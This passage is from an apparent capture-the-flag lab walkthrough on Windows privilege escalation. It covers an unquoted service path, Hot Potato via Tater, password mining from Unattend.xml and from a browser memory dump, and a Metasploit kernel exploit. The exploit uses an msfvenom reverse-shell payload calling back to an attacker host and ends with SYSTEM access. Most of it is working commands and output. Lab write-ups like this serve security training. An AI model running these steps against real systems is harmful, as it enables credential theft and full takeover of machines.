                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2684
        FLAGS              :

C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

As the path was not protected with quotes, Windows will consider the first program that matches the name, event if it is not complete:

* Expected service:  `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
* Malicious service: `C:\Program Files\Unquoted Path Service\Common.exe`

# [Task 11] Potato Escalation - Hot Potato

## #11.0 - Instructions

**Exploitation**

Windows VM

1. In command prompt type: `powershell.exe -nop -ep bypass`
2. In Power Shell prompt type: `Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
3. In Power Shell prompt type: `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`
4. To confirm that the attack was successful, in Power Shell prompt type: `net localgroup administrators`

## #11.0 - Click 'Completed' once you have successfully elevated the machine

~~~
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
The command completed successfully.


C:\Users\user>powershell -nop -ep bypass
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\user> Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
PS C:\Users\user> Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
2020-05-19T09:50:36 - Tater (Hot Potato Privilege Escalation) started
Local IP Address = 10.10.228.167
Spoofing Hostname = WPAD
Windows Defender Trigger Enabled
Real Time Console Output Enabled
Run Stop-Tater to stop Tater early
Use Get-Command -Noun Tater* to show available functions
Press any key to stop real time console output

2020-05-19T09:50:37 - Waiting for incoming HTTP connection
2020-05-19T09:50:37 - Flushing DNS resolver cache
2020-05-19T09:50:38 - Starting NBNS spoofer to resolve WPAD to 127.0.0.1
2020-05-19T09:50:41 - WPAD has been spoofed to 127.0.0.1
2020-05-19T09:50:41 - Running Windows Defender signature update
2020-05-19T09:50:42 - HTTP request for /wpad.dat received from 127.0.0.1
2020-05-19T09:50:46 - Attempting to redirect to http://localhost:80/gethashes and trigger relay
2020-05-19T09:50:46 - HTTP request for http://download.windowsupdate.com/v9/windowsupdate/redir/muv4wuredir.cab?2005191350 received from 127.0.0.1
2020-05-19T09:50:50 - HTTP request for /GETHASHES received from 127.0.0.1
2020-05-19T09:50:51 - HTTP to SMB relay triggered by 127.0.0.1
2020-05-19T09:50:51 - Grabbing challenge for relay from 127.0.0.1
2020-05-19T09:50:51 - Received challenge 936B9897B7F74351 for relay from 127.0.0.1
2020-05-19T09:50:51 - Providing challenge 936B9897B7F74351 for relay to 127.0.0.1
2020-05-19T09:50:52 - Sending response for \ for relay to 127.0.0.1
2020-05-19T09:50:52 - HTTP to SMB relay authentication successful for \ on 127.0.0.1
2020-05-19T09:50:52 - SMB relay service RJDOYDSQOGWKBSCGCHEE created on 127.0.0.1
2020-05-19T09:50:52 - Command likely executed on 127.0.0.1
2020-05-19T09:50:52 - SMB relay service RJDOYDSQOGWKBSCGCHEE deleted on 127.0.0.1
2020-05-19T09:50:53 - Stopping HTTP listener
2020-05-19T09:50:56 - Tater was successful and has exited
PS C:\Users\user> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.

PS C:\Users\user>
~~~

# [Task 12] Password Mining Escalation - Configuration Files

## #12.0 - Instructions

**Exploitation**

Windows VM

1. Open command prompt and type: `notepad C:\Windows\Panther\Unattend.xml`
2. Scroll down to the “<Password>” property and copy the base64 string that is confined between the “<Value>” tags underneath it.

Kali VM

1. In a terminal, type: echo [copied base64] | base64 -d
2. Notice the cleartext password

## #12.1 - What is the cleartext password found in Unattend.xml?



~~~
$ echo "cGFzc3dvcmQxMjM=" | base64 -d
password123
~~~

# [Task 13] Password Mining Escalation - Memory

## #13.0 - Instructions

**Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use auxiliary/server/capture/http_basic`
3. In Metasploit (msf > prompt) type: `set uripath x`
4. In Metasploit (msf > prompt) type: `run`

Windows VM

1. Open Internet Explorer and browse to: http://[Kali VM IP Address]/x
2. Open command prompt and type: `taskmgr`
3. In Windows Task Manager, right-click on the “iexplore.exe” in the “Image Name” columnand select “Create Dump File” from the popup menu.
4. Copy the generated file, "iexplore.DMP", to the Kali VM.

Kali VM

1. Place ‘iexplore.DMP’ on the desktop.
2. Open command prompt and type: `strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"`
3. Select the Copy the Base64 encoded string.
4. In command prompt type: `echo -ne [Base64 String] | base64 -d`
5. Notice the credentials in the output.

## #13.1 - Click 'Completed' once you have successfully found all the passwords



~~~
msf5 > use auxiliary/server/capture/http_basic
msf5 auxiliary(server/capture/http_basic) > set URIPATH x
URIPATH => x
msf5 auxiliary(server/capture/http_basic) > set SRVPORT 8000
SRVPORT => 8000
msf5 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:8000/x
[*] Local IP: http://192.168.1.46:8000/x
[*] Server started.
[*] Sending 401 to client 10.10.177.81
[+] HTTP Basic Auth LOGIN 10.10.177.81 "crazy:m0narch1!" / /x
~~~

# [Task 14] Privilege Escalation - Kernel Exploits

## #14.0 - Instructions

**Establish a shell**

Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open an additional command prompt and type: `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe`
7. Copy the generated file, shell.exe, to the Windows VM.

Windows VM

1. Execute shell.exe and obtain reverse shell

**Detection & Exploitation**

Kali VM

1. In Metasploit (msf > prompt) type: `run post/multi/recon/local_exploit_suggester`
2. Identify "exploit/windows/local/ms16_014_wmi_recv_notif" as a potential privilege escalation
3. In Metasploit (msf > prompt) type: `use exploit/windows/local/ms16_014_wmi_recv_notif`
4. In Metasploit (msf > prompt) type: `set SESSION [meterpreter SESSION number]`
5. In Metasploit (msf > prompt) type: `set LPORT 5555`
6. In Metasploit (msf > prompt) type: `run`

*NOTE: The shell might default to your eth0 during this attack.  If so, ensure you type set lhost [Kali VM IP Address] and run again.*

## #14.1 - Click 'Completed' once you have successfully elevated the machine

First start your handler in metasploit:

~~~
$ msfconsole -q
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:1234 
~~~

Use `msfvenom` to generate a reverse shell executable, and start the web server.

~~~
$ /opt/metasploit-framework/bin/msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.**.** lport=1234 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

From Windows, download the executable using Internet Explorer (http://10.9.**.**:8000/shell.exe) and execute it.

Now, back to Metasploit, you should have a meterpreter:

~~~
[*] Sending stage (176195 bytes) to 10.10.122.198
[*] Meterpreter session 1 opened (10.9.**.**:1234 -> 10.10.122.198:49199) at 2020-05-19 21:02:13 +0200
~~~

Put it in background and check the exploits:

~~~
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > show options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > sessions 

Active sessions
===============

  Id  Name  Type                     Information           Connection
  --  ----  ----                     -----------           ----------
  1         meterpreter x86/windows  TCM-PC\user @ TCM-PC  10.9.**.**:1234 -> 10.10.122.198:49199 (10.10.122.198)

msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.122.198 - Collecting local exploits for x86/windows...
[*] 10.10.122.198 - 31 exploit checks are being tried...
[+] 10.10.122.198 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.10.122.198 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
~~~

We don't see `ms16_014_wmi_recv_notif` in the list. The reason is simple; our session is a x86 meterpreter. Hence, the exploits are for the x86 architecture.

Let's migrate to a x64 process.

~~~
meterpreter > ps

Process List
============

 PID   PPID  Name                    Arch  Session  User         Path
 ---   ----  ----                    ----  -------  ----         ----
 0     0     [System Process]                                    
 4     0     System                                              
 100   680   svchost.exe                                         
 404   4     smss.exe                                            
 456   680   mscorsvw.exe                                        
 536   528   csrss.exe                                           
 540   680   svchost.exe                                         
 584   528   wininit.exe                                         
 592   576   csrss.exe                                           
 620   576   winlogon.exe                                        
 680   584   services.exe                                        
 688   584   lsass.exe                                           
 700   584   lsm.exe                                             
 784   680   svchost.exe                                         
 820   680   sppsvc.exe                                          
 860   680   svchost.exe                                         
 932   620   LogonUI.exe                                         
 948   680   svchost.exe                                         
 996   680   svchost.exe                                         
 1092  680   svchost.exe                                         
 1216  680   mscorsvw.exe                                        
 1224  680   spoolsv.exe                                         
 1252  680   svchost.exe                                         
 1372  680   amazon-ssm-agent.exe                                
 1464  680   LiteAgent.exe                                       
 1492  680   svchost.exe                                         
 1552  1092  rdpclip.exe             x64   2        TCM-PC\user  C:\Windows\System32\rdpclip.exe
 1628  680   Ec2Config.exe                                       
 1816  784   WmiPrvSE.exe                                        
 1944  680   svchost.exe                                         
 1968  680   svchost.exe                                         
 2040  784   WmiPrvSE.exe                                        
 2128  680   SearchIndexer.exe                                   
 2172  2128  SearchProtocolHost.exe                              
 2288  996   dwm.exe                 x64   2        TCM-PC\user  C:\Windows\System32\dwm.exe
 2316  2096  explorer.exe            x64   2        TCM-PC\user  C:\Windows\explorer.exe
 2572  680   wmpnetwk.exe                                        
 2628  680   TrustedInstaller.exe                                
 2744  2736  csrss.exe                                           
 2768  2736  winlogon.exe                                        
 3000  680   taskhost.exe            x64   2        TCM-PC\user  C:\Windows\System32\taskhost.exe
 3052  100   taskeng.exe                                         
 3124  2316  cmd.exe                 x64   2        TCM-PC\user  C:\Windows\System32\cmd.exe
 3136  2744  conhost.exe             x64   2        TCM-PC\user  C:\Windows\System32\conhost.exe
 3312  3124  shell.exe               x86   2        TCM-PC\user  C:\Users\user\Downloads\shell.exe
 3332  100   WMIADAP.exe                                         
 3456  2128  SearchProtocolHost.exe  x64   2        TCM-PC\user  C:\Windows\System32\SearchProtocolHost.exe
 3480  2128  SearchFilterHost.exe                                

meterpreter > migrate 3136
[*] Migrating from 3312 to 3136...
[*] Migration completed successfully.
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information           Connection
  --  ----  ----                     -----------           ----------
  1         meterpreter x64/windows  TCM-PC\user @ TCM-PC  10.9.**.**:1234 -> 10.10.122.198:49183 (10.10.122.198)

msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.122.198 - Collecting local exploits for x64/windows...
[*] 10.10.122.198 - 15 exploit checks are being tried...
[+] 10.10.122.198 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.10.122.198 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > 
~~~

Now, we see that the host is vulnerable to `ms16_014_wmi_recv_notif`. Let's move forward:

~~~
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_014_wmi_recv_notif
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/ms16_014_wmi_recv_notif) > run

[*] Started reverse TCP handler on 10.9.**.**:4444 
[*] Launching notepad to host the exploit...
[+] Process 1820 launched.
[*] Reflectively injecting the exploit DLL into 1820...
[*] Injecting exploit into 1820...
[*] Exploit injected. Injecting payload into 1820...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (201283 bytes) to 10.10.122.198
[*] Meterpreter session 2 opened (10.9.**.**:4444 -> 10.10.122.198:49208) at 2020-05-19 21:07:22 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
~~~